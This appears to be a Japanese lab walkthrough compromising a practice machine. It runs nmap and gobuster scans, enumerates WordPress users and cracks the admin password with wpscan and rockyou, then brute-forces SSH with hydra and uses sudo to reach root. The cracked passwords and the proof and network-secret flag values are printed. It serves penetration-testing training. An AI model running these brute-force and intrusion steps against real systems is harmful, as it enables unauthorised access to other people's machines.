 ```
nmap -Pn -n -vvv -sV -oA nmap/intial 10.11.1.251   
nmap -Pn -sC -sV -p 20,21,22,80,10180 -oA nmap/base_secipt 10.11.1.251   
nmap -Pn -n -vvv --script=vuln -oA nmap/vuln 10.11.1.251   
nmap -Pn -p- -T4 -oA nmap/all_port 10.11.1.251   
gobuster dir -u http://10.11.1.251 -w /usr/share/wordlists/dirb/common.txt    
gobuster dir -u http://10.11.1.251/wp -w /usr/share/wordlists/dirb/common.txt    
```
wpscanでユーザー名列挙   
```
wpscan --url http://10.11.1.251/wp -e u   
```
adminユーザーがいるのでwpscanでパスワードクラック   
```
wpscan --url http://10.11.1.251/wp -U admin -P /usr/share/wordlists/rockyou.txt    
```
Username: admin    
Password: monkey   
wp-adminページからログインする   
ユーザーのプロフィールからユーザー名が「sean」であることがわかる  
hydraでsshをクラック  
```
hydra -l sean -t 4 -f -V -P /usr/share/wordlists/rockyou.txt 10.11.1.251 ssh    
```
login: sean    
password: monkey     

sshで接続   
```
ssh sean@10.11.1.251
sean@sean:~$ sudo -l
User sean may run the following commands on sean:
    (ALL : ALL) ALL
sean@sean:~$ sudo su
root@sean:/home/sean# cd /root
root@sean:~# ls
network-secret.txt  proof.txt
root@sean:~# cat proof.txt
ff3e57a673fc3159a4cc5df91e5c543d
root@sean:~# cat network-secret.txt
7eab8563146f16140c769072580cbcb3
```


